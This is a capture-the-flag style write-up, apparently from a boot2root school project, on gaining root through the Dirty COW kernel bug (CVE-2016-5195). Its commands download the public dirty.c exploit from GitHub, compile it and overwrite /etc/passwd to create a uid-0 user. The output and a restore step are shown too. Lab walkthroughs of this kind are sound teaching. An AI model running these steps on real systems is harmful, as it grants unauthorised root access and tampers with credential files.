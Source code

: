 # Root privilege escalation - Method 2: Dirty cow

## LES: Linux privilege escalation auditing tool

LES tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
bash les.sh > les.log
```

[Full Report here](/home/aurelien/dev/42_boot2root/logs/les.html)

We will use the exploit `dirtycow2` based on `CVE-2016-5195` vulnerability, commonly named `Dirty cow`.

```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

## Dirty COW (Copy-On-Write)

### Details

[<img src="images/dirtycow.png" align="right" width="50%">](https://www.youtube.com/watch?v=kEsshExn7aE)

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.

Impact

- An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
- This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

### Exploit: Pokemon exploit of the dirtycow vulnerability

| Link                                                                | Usage   | Description            | Family          |
| ------------------------------------------------------------------- | ------- | ---------------------- | --------------- |
| [dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c) | ./dirty | /etc/passwd based root | PTRACE_POKEDATA |

- This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
- The user will be prompted for the new password when the binary is run.
- The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
- After running the exploit you should be able to login with the newly created user.

### How to

```shell
# Download and compile the exploit
curl https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c > dirty.c
gcc -pthread dirty.c -o dirty -lcrypt


# Run it and enter the new password
./dirty
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

# Login with newly created user
su firefart
id
  uid=0(firefart) gid=0(root) groups=0(root)

# DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
mv /tmp/passwd.bak /etc/passwd
```

## Sources

### Helpers

- [book.hacktricks.xyz - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [Linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester)

### Vulnerability

- [Dirty Cow - Vulnerability Details](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

### Exploit

- [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
